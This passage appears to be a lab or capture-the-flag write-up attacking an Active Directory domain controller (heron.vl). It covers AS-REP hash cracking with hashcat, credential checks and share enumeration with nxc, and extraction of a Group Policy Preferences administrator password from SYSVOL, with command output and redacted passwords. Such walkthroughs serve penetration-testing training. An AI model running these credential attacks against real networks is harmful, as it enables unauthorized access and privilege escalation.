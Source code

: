 ```bash
hashcat --hash-type 18200 --attack-mode 0 ASREProastables.txt /usr/share/wordlists/rockyou.txt
```

Now let's try creds :

```bash
nxc ldap "10.10.173.53" -u 'samuel.davies'  -p 'REDACTED'

SMB         10.10.173.53    445    MUCDC            [*] Windows Server 2022 Standard 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True)
LDAP        10.10.173.53    389    MUCDC            [+] heron.vl\samuel.davies:REDACTED
```
```bash
nxc smb "10.10.173.53" -u 'samuel.davies'  -p 'REDACTED' --shares

SMB         10.10.173.53    445    MUCDC            [*] Windows Server 2022 Standard 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True)
SMB         10.10.173.53    445    MUCDC            [+] heron.vl\samuel.davies:REDACTED
SMB         10.10.173.53    445    MUCDC            [*] Enumerated shares
SMB         10.10.173.53    445    MUCDC            Share           Permissions     Remark
SMB         10.10.173.53    445    MUCDC            -----           -----------     ------
SMB         10.10.173.53    445    MUCDC            accounting$
SMB         10.10.173.53    445    MUCDC            ADMIN$                          Remote Admin
SMB         10.10.173.53    445    MUCDC            C$                              Default share
SMB         10.10.173.53    445    MUCDC            CertEnroll      READ            Active Directory Certificate Services share
SMB         10.10.173.53    445    MUCDC            home$           READ
SMB         10.10.173.53    445    MUCDC            IPC$                            Remote IPC
SMB         10.10.173.53    445    MUCDC            it$
SMB         10.10.173.53    445    MUCDC            NETLOGON        READ            Logon server share
SMB         10.10.173.53    445    MUCDC            SYSVOL          READ            Logon server share
SMB         10.10.173.53    445    MUCDC            transfer$       READ,WRITE
```
## Getting a shell on the windows machine

We can read in SYSVOL and we saw that there were service accounts (svc_web)

```bash
nxc smb "10.10.173.53" -u 'samuel.davies'  -p 'REDACTED' -M gpp_password

GPP_PASS... 10.10.173.53    445    MUCDC            [+] Found credentials in 'heron.vl/Policies/{6CC75E8D-586E-4B13-BF80-B91BEF1F221C}/Machine/Preferences/Groups/Groups.xml'
GPP_PASS... 10.10.173.53    445    MUCDC            Password: REDACTED
GPP_PASS... 10.10.173.53    445    MUCDC            action: U
GPP_PASS... 10.10.173.53    445    MUCDC            newName: _local
GPP_PASS... 10.10.173.53    445    MUCDC            fullName:
GPP_PASS... 10.10.173.53    445    MUCDC            description: local administrator
GPP_PASS... 10.10.173.53    445    MUCDC            changeLogon: 0
GPP_PASS... 10.10.173.53    445    MUCDC            noChange: 0
GPP_PASS... 10.10.173.53    445    MUCDC            neverExpires: 1
GPP_PASS... 10.10.173.53    445    MUCDC            acctDisabled: 0
GPP_PASS... 10.10.173.53    445    MUCDC            subAuthority: RID_ADMIN
GPP_PASS... 10.10.173.53    445    MUCDC            userName: Administrator (built-in)
```
If you want to know how gpp password work : [https://infosecwriteups.com/attacking-gpp-group-policy-preferences-credentials-active-directory-pentesting-16d9a65fa01a](https://infosecwriteups.com/attacking-gpp-group-policy-preferences-credentials-active-directory-pentesting-16d9a65fa01a)
